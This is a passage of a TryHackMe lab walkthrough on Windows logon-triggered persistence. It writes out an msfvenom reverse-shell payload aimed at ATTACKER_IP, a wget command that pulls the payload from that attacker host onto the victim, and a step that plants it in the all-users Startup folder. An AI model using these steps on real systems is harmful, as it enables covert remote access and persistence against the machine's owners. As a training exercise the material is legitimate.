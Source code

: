 ![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/362875749378007cc447a2e47d476c9b.png)

Use the reverse shell obtained through the task scheduler and execute `C:\flags\flag9.exe` to retrieve a flag.

Once we did all steps, we get a shell:

![](gitbook/cybersecurity/images/Pasted%20image%2020250515165131.png)

```
C:\flags>.\flag9.exe
THM{JUST_A_MATTER_OF_TIME}
```

## Logon Triggered Persistence

***

Some actions performed by a user might also be bound to executing specific payloads for persistence. Windows operating systems present several ways to link payloads with particular interactions. This task will look at ways to plant payloads that will get executed when a user logs into the system.

### Startup folder

Each user has a folder under `C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` where you can put executables to be run whenever the user logs in. An attacker can achieve persistence just by dropping a payload in there. Notice that each user will only run whatever is available in their folder.

If we want to force all users to run a payload while logging in, we can use the folder under `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp` in the same way.

For this task, let's generate a reverse shell payload using msfvenom:

```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4450 -f exe -o revshell.exe
```

We will then copy our payload into the victim machine. You can spawn an `http.server` with Python3 and use wget on the victim machine to pull your file:

|                                                                                                                                                                                   |   |                                                                                                                                        |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | - | -------------------------------------------------------------------------------------------------------------------------------------- |
| <p>AttackBox<br><br><code>shell-session&#x3C;br>user@AttackBox$ python3 -m http.server &#x3C;br>Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ... &#x3C;br></code></p> | ➜ | <p>Powershell<br><br><code>shell-session&#x3C;br>PS C:\> wget http://ATTACKER_IP:8000/revshell.exe -O revshell.exe&#x3C;br></code></p> |

We then store the payload into the `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp` folder to get a shell back for any user logging into the machine.

```shell-session
C:\> copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"
```

Now be sure to sign out of your session from the start menu (closing the RDP window is not enough as it leaves your session open):

![sign out](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/f0ba7fd44646d55c5505737642bdd96e.png)
